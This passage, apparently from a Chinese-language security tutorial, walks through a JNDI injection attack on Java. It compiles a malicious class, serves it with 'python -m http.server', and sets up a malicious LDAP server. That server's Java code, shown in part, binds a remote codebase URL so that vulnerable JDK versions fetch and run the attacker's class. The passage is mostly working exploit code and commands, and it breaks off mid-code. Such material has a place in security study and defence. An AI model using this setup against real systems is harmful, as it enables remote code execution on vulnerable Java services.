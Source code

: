 ```java
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```
对其进行编译后得到 .class 文件，在根目录中开启 http 服务。例如这里的包名为 com.dr34d，那么我们需要在 com 的上层目录开启 http 服务。
```bash
python -m http.server 5000
```

开启一个恶意的 ldap 服务，恶意服务端可以在 [marshalsec/src/main/java/marshalsec/jndi/LDAPRefServer.java at master · mbechler/marshalsec · GitHub](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) 的基础之上进行修改。

将恶意类绑定到 ldap 服务器中，注意在绑定时加入包名，例如：http://192.168.137.98:5000/#com.dr34d.TestEvilClass，前面是 http 服务的 URL，后面是恶意类的全限定名。

```java
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

/*
jdk < 11.0.1、8u191、7u201、6u211
 */
public class AttackWithRemoteFactory {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] argx ) {
        int port = 1389;
        String[] args = new String[]{"http://192.168.137.98:5000/#com.dr34d.TestEvilClass"};
        if ( args.length < 1 || args[ 0 ].indexOf('#') < 0 ) {
            System.err.println(AttackWithRemoteFactory.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        }
        else if ( args.length > 1 ) {
            port = Integer.parseInt(args[ 1 ]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

```